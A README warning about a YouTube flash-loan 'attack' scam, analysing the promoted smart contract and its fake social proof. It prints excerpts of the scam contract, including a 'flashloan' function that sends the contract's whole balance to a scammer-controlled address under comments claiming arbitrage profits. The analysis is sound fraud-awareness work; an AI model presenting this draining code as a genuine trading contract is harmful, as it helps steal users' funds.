 # flash-loan-scam
Analysis of "flash loan attack" from YouTuber https://www.youtube.com/watch?v=HynfsKoFlaw&amp;t=105s

## Background

The YouTuber "Crypto Academy" https://www.youtube.com/channel/UCgiMBbCjQnaf2q3_cs06KOw  posted a video on how to orchestrate a FlashLoan attack.  I decided to verify the claims of this video by inspecting the code. This is my analysis of the video with a review of the code.

## Concern 1:  Code on GhostBin
The attack code is on GhostBin, an anonymous file sharing platform not GitHub or GitHub gist. 

## Concern 2:  Code on IPFS
From the GhostBin code the contract imports a contract from IPFS at QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923.  This obfiscates the code from anyone wanting to inspect what the contract does.  I have included the IPFS code in this repo to inspect. 

## Conern 3:  Bad addresses
In the IPFS file LN 128 references the contract `0x9c7770E88dd4c4F972283E97B4FeBD2991e0E05B`.  This does not exist on the Ethereum blockchain.   https://etherscan.io/address/0x9c7770E88dd4c4F972283E97B4FeBD2991e0E05B

# Inspecting the code
After downloading the IPFS file QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923 there are a lot of concerns.

## Concern 4:  Commented out code
Code in the "Router" contract are commented out and done using the `/*` method instead of `\\` which is technically correct, but easy to miss unless put into an IDE such as VS Code.

```
    function lendingPoolFlashloan(uint256 _asset) public pure {
        uint256 data = _asset; 
        require(data != 0, "Data can't be 0.");/*
        uint amount = 1 BNB;

        ILendingPool lendingPool = ILendingPool(addressesProvider.getLendingPool());
        lendingPool.flashLoan(address(this), _asset, amount, data);*/
    }
```

![Screenshot from 2021-07-05 11-21-05](https://user-images.githubusercontent.com/8411406/124405982-6501c080-dd83-11eb-82dd-779f54591bf4.png)

Lots of methods are simply commented out or do nothing, such as 

```
    //5. Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    function completeTransation(uint256 balanceAmount) public pure {
        require(balanceAmount >= 0, "Amount should be greater than 0!");
    }
```

## Concern 5:  SENDING ALL THE ETH!
In the method "flashloan", LN44 sweeps the entire amount of the Ethereum in the contract.  The premis of the video is to use borrowed funds, not your own ETH to attack defi contracts such as UniSwap.

* NOTE THE AUTHOUR OF THE VIDEO ASKS YOU TO FUND THE CONTRACT.  In otherwords, he will sweep this ETH.  In the video at 5:12 https://youtu.be/HynfsKoFlaw?t=312 the other funds his contract with 0.2 BNB.  This is what will be swept from you.

```
	function flashloan() public payable {
    	// Send required coins for swap
    	address(uint160(router.pancakeSwapAddress())).transfer(
        	address(this).balance
    	);

    	//Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
    	router.borrowFlashloanFromMultiplier(
        	address(this),
        	router.bakerySwapAddress(),
        	flashLoanAmount
    	);

    	//To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
    	router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);
    	//The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
    	router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);
    	//After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
    	router.transferBnbToMultiplier(router.pancakeSwapAddress());
    	//Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    	router.completeTransation(address(this).balance);
	}
```

# Socials 
## Concern 3: Social profile
The YouTuber only has a few followings and only 3 videos at time of writing on "Flash Loans"
![Screenshot from 2021-07-05 10-55-32](https://user-images.githubusercontent.com/8411406/124405464-11db3e00-dd82-11eb-8346-de1eac423640.png)

## Concern 4: Fake comments
There are profiles such as "Marcus Canton" with no profile image commenting "Amazing I did it twice and earned over 5BNB. Great JOB!!".  Clicking "his" profile shows they only registered a few days ago at time of writing.

![Screenshot from 2021-07-05 11-07-01](https://user-images.githubusercontent.com/8411406/124405446-038d2200-dd82-11eb-80d0-dad085fabfba.png)


# Final words
Stay safe out there!  Visit real meetups like www.bitcoinbrisbane.com.au or meetup.com/bitcoinbrisbane to get real information.
